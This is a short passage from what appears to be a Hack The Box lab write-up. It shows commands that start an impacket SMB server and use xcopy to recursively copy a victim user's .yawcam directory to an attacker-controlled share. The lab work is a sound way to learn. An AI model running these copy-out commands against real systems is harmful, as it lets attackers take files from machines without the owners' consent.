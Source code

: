 ![](assets/Access_assets/Pasted%20image%2020231115181550.png)

- we can view the contents of this directory

![](assets/Access_assets/Pasted%20image%2020231115181700.png)

- we can also recursively copy the content of this directory by setting up our own smb server, so we can analyze the files on our machine. so set up our smb server

```shell
impacket-smbserver smb ~/HTB/smb 
```

- then recursively copy using the xcopy command

```shell
xcopy /hievry C:\Users\security\.yawcam \\10.10.14.6\smb\win

```

